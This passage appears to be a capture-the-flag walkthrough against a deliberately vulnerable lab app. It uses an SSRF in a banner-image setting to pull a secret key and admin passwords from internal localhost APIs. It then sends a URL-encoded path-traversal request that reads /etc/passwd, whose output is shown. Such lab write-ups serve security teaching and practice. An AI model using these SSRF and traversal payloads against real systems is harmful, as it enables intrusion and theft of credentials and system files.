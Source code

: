 ```sh
API Dashboard
Below is a list of important APIs accessible to admins with sample requests and responses:

Internal API
GET http://127.0.0.1:5000/internal-api HTTP/1.1
Host: 127.0.0.1:5000

Response:
{
  "secretKey": "superSecretKey123",
  "confidentialInfo": "This is very confidential."
}
Get Admins API
GET http://127.0.0.1:5000/getAllAdmins101099991 HTTP/1.1
Host: 127.0.0.1:5000

Response:
{
    "ReviewAppUsername": "admin",
    "ReviewAppPassword": "xxxxxx",
    "SysMonAppUsername": "administrator",
    "SysMonAppPassword": "xxxxxxxxx",
}
```

5. Also, as admin you will get access to Settings menu where you can change the banner by updating the banner image URL, this functionality is vulnerable to SSRF
6. Replace the default image `https://preview.ibb.co/hB9WHn/background.jpg` with the internal API endpoint discovered earlier `http://127.0.0.1:5000/internal-api` and get the `secretKey` : `data:application/json; charset=utf-8;base64,eyJzZWNyZXRLZXkiOiJzdXBlclNlY3JldEtleTEyMyIsImNvbmZpZGVudGlhbEluZm8iOiJUaGlzIGlzIHZlcnkgY29uZmlkZW50aWFsIGluZm9ybWF0aW9uLiBIYW5kbGUgd2l0aCBjYXJlLiJ9`
7. Since the information is returned base64 encoded, decode the key: `{"secretKey":"superSecretKey123","confidentialInfo":"This is very confidential information. Handle with care."}`
8. Do the same for the other API endpoint `http://127.0.0.1:5000/getAllAdmins101099991` resulting in: `data:application/json; charset=utf-8;base64,eyJSZXZpZXdBcHBVc2VybmFtZSI6ImFkbWluIiwiUmV2aWV3QXBwUGFzc3dvcmQiOiJhZG1pbkAhISEiLCJTeXNNb25BcHBVc2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJTeXNNb25BcHBQYXNzd29yZCI6IlMkOSRxazZkIyoqTFFVIn0=`
9. Decode the response: `{"ReviewAppUsername":"admin","ReviewAppPassword":"admin@!!!","SysMonAppUsername":"administrator","SysMonAppPassword":"S$9$qk6d#**LQU"}`

#### Data exfiltration
1. Now that we have the SysMon system administrator and password we can login and get the the first flag: **FIRST_FLAG**

### Privilege escalation
1. Application SysMon hosted on port 50000 is vulnerable to path traversal on request `GET /profile.php?img=%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd HTTP/1.1`
2. Using this vulnerability we can exfiltrate data like /etc/passwd
```txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
```